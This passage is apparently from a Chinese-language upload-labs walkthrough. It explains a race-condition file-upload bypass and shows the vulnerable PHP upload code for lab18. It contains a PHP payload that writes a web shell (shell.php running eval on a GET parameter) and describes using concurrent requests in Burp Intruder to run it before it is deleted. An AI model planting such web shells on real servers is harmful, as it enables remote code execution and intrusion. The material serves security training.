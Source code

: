 * 文件上传到删除存在时间差，**使用并发POST和GET，在删除之前访问到shell，完成攻击**
* 同时intruder重放current payload和GET payload请求，访问直至出现200，shell写入成功



Concurrent payload:
```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET["a"])?>');?>
```



## lab18

```php
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

```